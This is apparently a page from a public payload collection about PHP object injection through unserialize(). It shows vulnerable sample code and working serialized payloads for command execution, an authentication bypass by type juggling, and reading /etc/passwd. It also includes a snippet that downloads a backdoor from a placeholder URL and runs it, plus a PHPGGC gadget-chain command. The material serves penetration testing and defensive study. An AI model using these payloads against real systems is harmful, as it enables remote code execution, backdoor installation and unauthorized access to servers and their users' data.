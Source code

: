# PHP Object Injection

PHP Object Injection is an application level vulnerability that could allow an attacker to perform different kinds of malicious attacks, such as Code Injection, SQL Injection, Path Traversal and Application Denial of Service, depending on the context. The vulnerability occurs when user-supplied input is not properly sanitized before being passed to the unserialize() PHP function. Since PHP allows object serialization, attackers could pass ad-hoc serialized strings to a vulnerable unserialize() call, resulting in an arbitrary PHP object(s) injection into the application scope.

Also you should check the `Wrapper Phar://` in [File Inclusion - Path Traversal](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion%20-%20Path%20Traversal#wrapper-phar) which use a PHP object injection.

## Exploit with the __wakeup in the unserialize function

Vulnerable code:

```php
<?php 
    class PHPObjectInjection{
        public $inject;
        function __construct(){
        }
        function __wakeup(){
            if(isset($this->inject)){
                eval($this->inject);
            }
        }
    }
    if(isset($_REQUEST['r'])){  
        $var1=unserialize($_REQUEST['r']);
        if(is_array($var1)){
            echo "<br/>".$var1[0]." - ".$var1[1];
        }
    }
    else{
        echo ""; # nothing happens here
    }
?>
```

Payload:

```php
# Basic serialized data
a:2:{i:0;s:4:"XVWA";i:1;s:33:"Xtreme Vulnerable Web Application";}

# Command execution
string(68) "O:18:"PHPObjectInjection":1:{s:6:"inject";s:17:"system('whoami');";}"

```

## Authentication bypass

### Type juggling

Vulnerable code:

```php
<?php
$data = unserialize($_COOKIE['auth']);

if ($data['username'] == $adminName && $data['password'] == $adminPassword) {
    $admin = true;
} else {
    $admin = false;
}
```

Payload:

```
a:2:{s:8:"username";b:1;s:8:"password";b:1;}
```

Because `true == "str"` is true. Ref: [POC2009 Shocking News in PHP Exploitation](https://www.owasp.org/images/f/f6/POC2009-ShockingNewsInPHPExploitation.pdf)

### Object reference

Vulnerable code:

```php
<?php
class Object
{
  var $guess;
  var $secretCode;
}

$obj = unserialize($_GET['input']);

if($obj) {
    $obj->secretCode = rand(500000,999999);
    if($obj->guess === $obj->secretCode) {
        echo "Win";
    }
}
?>
```

Payload:

```
O:6:"Object":2:{s:10:"secretCode";N;s:4:"code";R:2;}
```

Ref: 

- [PHP Internals Book - Serialization](http://www.phpinternalsbook.com/classes_objects/serialization.html)
- [TSULOTT Web challenge write-up from MeePwn CTF 1st 2017 by Rawsec](https://rawsec.ml/en/MeePwn-2017-write-ups/#tsulott-web)

## Others exploits

Reverse Shell

```php
class PHPObjectInjection
{
    // CHANGE URL/FILENAME TO MATCH YOUR SETUP
    public $inject = "system('wget http://URL/backdoor.txt -O phpobjbackdoor.php && php phpobjbackdoor.php');";
}

echo urlencode(serialize(new PHPObjectInjection));
```

Basic detection

```php
class PHPObjectInjection
{
    // CHANGE URL/FILENAME TO MATCH YOUR SETUP
    public $inject = "system('cat /etc/passwd');";
}

echo urlencode(serialize(new PHPObjectInjection));
//O%3A18%3A%22PHPObjectInjection%22%3A1%3A%7Bs%3A6%3A%22inject%22%3Bs%3A26%3A%22system%28%27cat+%2Fetc%2Fpasswd%27%29%3B%22%3B%7D
//'O:18:"PHPObjectInjection":1:{s:6:"inject";s:26:"system(\'cat+/etc/passwd\');";}'
```

## Finding and using gadgets

[PHPGGC](https://github.com/ambionics/phpggc) is a tool built to generate the payload based on several frameworks:

- Laravel
- Symfony
- SwiftMailer
- Monolog
- SlimPHP
- Doctrine
- Guzzle

```powershell
phpggc monolog/rce1 'phpinfo();' -s
```

## Thanks to

- [PHP Object Injection - OWASP](https://www.owasp.org/index.php/PHP_Object_Injection)
- [PHP Object Injection - Thin Ba Shane](http://location-href.com/php-object-injection/)
- [PHP unserialize](http://php.net/manual/en/function.unserialize.php)
- [PHP Generic Gadget - ambionics security](https://www.ambionics.io/blog/php-generic-gadget-chains)